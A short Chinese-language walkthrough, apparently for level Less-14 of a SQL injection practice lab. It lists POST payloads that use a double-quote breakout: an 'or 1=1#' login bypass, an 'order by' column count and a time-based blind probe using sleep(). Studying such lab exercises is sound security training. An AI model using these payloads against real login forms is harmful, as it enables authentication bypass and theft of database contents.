

# Less-14
以下均为POST内容：
首先在代码中加入两行:  echo $sql;              echo "</br>";
1. uname=admin&passwd=a“&submit=Submit   构造：" or 1=1#
2. uname=admin&passwd=a“ order by 10#&submit=Submit 判断一共有多少列
3. uname=admin&passwd=a“ or if(length(database())=8,1,sleep(5))# #&submit=Submit 使用和less-13同样的方法进行判断